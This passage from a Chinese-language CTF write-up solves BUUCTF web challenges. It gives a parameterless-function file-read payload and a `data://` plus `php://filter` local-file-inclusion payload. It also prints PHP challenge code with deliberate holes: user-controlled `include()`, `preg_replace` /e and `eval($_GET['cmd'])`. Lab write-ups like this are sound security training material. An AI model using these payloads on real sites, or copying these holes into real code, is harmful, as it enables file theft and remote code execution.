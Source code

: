 也就是说 payload 格式只能是 `a(b(c()));`

明显利用的是无参数函数读文件 / rce 这个 trick

payload 如下

```
http://d02232b5-2e11-4816-99b5-03bac9959236.node4.buuoj.cn:81/
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251751557.png)

## [BJDCTF2020]ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

看着好熟悉

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
